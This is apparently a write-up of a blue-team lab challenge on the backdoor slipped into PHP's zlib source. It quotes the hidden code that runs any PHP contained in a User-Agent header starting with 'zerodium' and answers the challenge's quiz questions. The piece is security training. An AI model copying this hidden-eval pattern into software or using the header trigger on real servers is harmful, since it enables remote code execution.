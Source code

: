 ```yaml
---
layout: post
title: Source
date: '2023-10-08 20:49:49 +0300'
image: /assets/img/cover_images/2.png
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Text Editor, C, Php]
---
```


## Source
A vulnerability was identified in a widely used product. Download the challenge attachment and review the code to identify it. 

## What is the technology affected? (5 points) 

```c
#include "php.h"
#include "SAPI.h"
#include "php_ini.h"
#include "ext/standard/info.h"
#include "ext/standard/php_string.h"
#include "php_zlib.h"
#include "zlib_arginfo.h"
#include "Zend/zend_interfaces.h"
```
## Based on the list of vulnerability categories in the challenge scenario, which one describes the identified vulnerability? (5 points) 
zend_eval_string() is called with our malicious payload contained in the Z_STRVAL_P() as an argument. This eval fucntion basically calls zend engine api which allows executing php code unrestrictedly.
```bash
if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL      ("_SERVER"))) && (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
Command Execution
## See the corresponding commit. How many lines of code were added when the vulnerability was introduced? (5 points) 
Seeing the php zlib commit history on github we stumbbled upon the this commit where the code changes were made
[link](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
## What HTTP head is required to exploit the vulnerability? (5 points) 
[link](https://news-web.php.net/php.internals/113838)
User-Agent